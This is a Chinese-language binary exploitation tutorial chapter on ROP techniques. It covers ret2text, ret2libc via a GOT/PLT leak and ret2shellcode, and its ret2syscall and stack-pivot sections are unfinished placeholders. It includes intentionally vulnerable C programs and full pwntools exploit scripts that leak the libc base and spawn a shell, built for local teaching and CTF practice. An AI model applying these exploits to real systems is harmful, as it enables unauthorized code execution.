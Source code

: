 # ROP\_Tricks

### 前言

前面我们已经了解了基本的ROP原理，这一章主要整合了常用的ROP技巧。（这里仅仅是记录了我所知的技巧，欢迎各位师傅补充）

### ret2xxx系列

学习ROP的过程中经常会看到如`ret2text`，`ret2libc`，`ret2syscall`等利用手法，`ret2`后面的内容便是ROP链中各种函数，gadget的来源。

**注意：这些并不是某个完整的利用方法，而是某个完整的利用方法的一部分**

#### ret2text

`ret2text`就是利用下图中ELF部分中储存可执行代码的部分（即`.text`段），如前一章中的ROP的例子便是`ret2text`

![image-20230807175949579](../.gitbook/assets/image-20230807175949579.png)

#### ret2libc

`ret2libc`则是用dynamic link libraries中的gadget（虽然这个利用方法叫做`ret2libc`，但是所有连接进来的动态链接库都可以作为gadget的来源）

![image-20230807175949579](../.gitbook/assets/image-20230807175949579.png)

`ret2libc`和`ret2text`类似，但是由于动态链接库的特性所致，在利用时多出了一步，便是泄漏动态链接库的基地址。关于泄漏基地址，这里就要引入两个关于链接库装载的表，`got`表和`plt`表。这里就不详细解释了，仅仅是简单的讲讲其基本的工作流程。

因为动态链接库的加载时的基地址是随机的，所以当程序调用动态链接库中的函数的时候，实际是转跳到预留在程序中的函数入口，即`plt`。而执行到`plt`中后，会先检查对应的函数是否已经加载，如果已经加载，则根据`got`表中记录的地址转跳实际的函数地址。否则先调用加载函数（加载后的函数的地址记录在`got`表中），再转跳到对应的函数。大致的流程图如下：

![image-20230807212935624](../.gitbook/assets/image-20230807212935624.png)

由此，我们可以知道加载之后的函数地址储存在`got`表中，那么我们就可以想办法将`got`表中的内容输出出来，然后减去偏移，从而实现泄漏动态链接库的基地址（这里计算基地址的原理是动态链接库的加载也是通过映射文件实现的，一个链接库映射到一段连续的内存空间）。拿到基地址之后我们就可以加上偏移获得所需函数或者gadget。

以下面这个程序为例，目标是获取shell

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

int main() {
    char str[0x20];
    puts("Hello, world!");

    read(0, str, 0x100);

    return 0;
}
```

可以得到如下脚本：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

但是通过调试会发现程序会在执行到下图这个阶段的时候无法正常执行。这个是因为`xmm0`等寄存器是128位的，当往内存里存取值的时候，指针需要对齐到`0x10`，而此时`rsp + 0x50`的末位为8，并没有对齐，最终导致程序异常。

![image-20230807221551871](../.gitbook/assets/image-20230807221551871.png)

解决方法也很简单，只需在payload中加一个`ret`即可（具体原理就留给大家自己思考了）。最终脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3
ret = 0x000000000040101A

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(ret)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

下图就是栈帧的变化过程：

![img](../.gitbook/assets/ret2libc.gif)

#### ret2shellcode

如果程序的内存中有一段可写且可执行的内存的话（如没开NX保护时的栈，mmap申请出来的内存空间，mprotect修改权限后的内存等），可以通过提前向其中写入shellcode，然后再通过控制返回地址使程序执行shellcode。

ret2shellcode一般用于没开NX保护或需要实现的功能比较的复杂时使用（如反弹shell）。具体如何通过栈溢出控制程序流执行shellcode这里就不过多分析了，这里主要讲讲如何生成shellcode。以下面这个程序为例（目标是获取shell）：这个程序首先通过`mmap`申请了一块有执行权限的内存，起始地址为`0xdead0000`，然后通过`read`读入内容，同时后面还有一个栈溢出。

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>
#include <stdlib.h>

int main() {
    mmap(0xdead0000, 0x1000, 7, 0x21, -1, 0);

    char *p = (char *)0xdead0000;
    char str[0x20];

    read(0, p, 0x1000);

    read(0, str, 0x50);

    return 0;
}
```

对应的exp：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

p.send(asm(shellcraft.sh()).ljust(0x1000, b"\x00"))

payload = b"A" * 0x38
payload += p64(0xDEAD0000)
p.send(payload)

p.interactive()
```

上面这个exp中，`shellcraft.sh()`函数用于生成获取shell的shellcode的汇编指令，而`asm`函数用于将汇编指令转化为机器码。

#### ret2syscall

咕咕咕

### 栈迁移

咕咕咕

